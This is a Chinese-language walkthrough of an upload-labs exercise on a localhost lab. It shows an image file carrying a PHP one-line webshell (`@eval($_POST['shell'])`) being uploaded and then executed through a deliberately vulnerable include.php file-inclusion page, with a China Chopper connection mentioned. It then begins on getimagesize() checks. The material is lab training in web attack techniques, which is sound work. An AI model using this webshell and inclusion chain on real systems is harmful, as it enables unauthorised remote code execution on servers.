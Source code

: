 ```php

```

本关卡通过检测上传文件的文件头来判断文件类型，只允许图片文件上传，因此可以**制作图片一句话来上传，之后再利用提示中的文件包含漏洞进行操作。**

制作图片一句话

![202202241135202](https://img.yatjay.top/md/202203261013436.png)

上传图片一句话成功

![202202241136072](https://img.yatjay.top/md/202203261013163.png)

查看提示中的文件包含漏洞情况

```php
 <?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?> 
```

上述代码说明，只要使用GET方法提交名为file的参数，那么就会将该参数值包含，并作为PHP脚本来进行解析，因此我们使用GET方法提交参数值为上传文件的路径，文件路径可以右键网页中显示的图片来获得

![202202241542729](https://img.yatjay.top/md/202203261013866.png)

GET提交参数即`http://localhost/PenTest/uploadlabs/include.php?file=upload/9820220224033548.jpg`，可见该图片文件会被当做PHP脚本来解析

![202202241535998](https://img.yatjay.top/md/202203261014517.png)

我们写的一句话内容是`<?php @eval($_POST['shell']);?>`，所以使用POST方法提交名为shell的参数来执行

POST提交`shell=phpinfo();`可以成功执行如下，或者也可使用中国菜刀连接webshell

![202202241538493](https://img.yatjay.top/md/202203261014801.png)



### Pass-15(突破getimagesize)

#### getimagesize()函数

getimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组，失败则返回 FALSE 并产生一条 E_WARNING 级的错误信息。

**函数的机制决定了其只接收图像文件并获取图像信息，相当于限制了文件类型。**

因此如果只能上传图像，就只能配合其他漏洞如文件解析、文件包含来对脚本加以利用，否则就无从利用图像来触发脚本语句。
